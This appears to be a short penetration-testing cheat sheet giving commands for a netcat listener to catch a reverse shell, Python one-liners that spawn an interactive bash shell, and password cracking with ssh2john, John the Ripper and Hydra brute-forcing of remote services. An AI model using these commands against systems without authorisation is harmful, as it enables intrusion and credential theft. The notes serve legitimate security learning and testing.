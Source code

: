 ### Remote shell with netcat {#remote-shell-with-netcat}


#### Creating a listener {#creating-a-listener}

```bash
nc -vnlp 9991 # 9991 is the port in the PHP reverse shell code
```


#### Stabilizing the shell {#stabilizing-the-shell}

If the host has Python install, it can be possible to "stabilize the shell" with a couple of shell commands:

```bash
python -c 'import pty; pty.spawn("/bin/bash")'
```

```bash
python -c 'import os; os.system("/bin/bash")'
```


### John the Ripper {#john-the-ripper}

John the Ripper is a password-cracking tool.


#### Going from an RSA private key to John the Ripper {#going-from-an-rsa-private-key-to-john-the-ripper}

```bash
/usr/share/ssh2john.py rsa_private_key > john_formatted_hash
```


#### Cracking a hash with John the Ripper {#cracking-a-hash-with-john-the-ripper}

```bash
john hash_to_crack wordlist
```

Example wordlist:  `/usr/share/wordlists/rockyou.txt`


### THC Hydra {#thc-hydra}

Hydra is another password-cracking tool. It's useful for cracking passwords on a remote system.


#### Cracking Example {#cracking-example}

```bash
hydra -l username -P wordlist.txt server service
```

`server` is the hostname or IP address of the target server
`service` is the service running on that server which you want to attack.
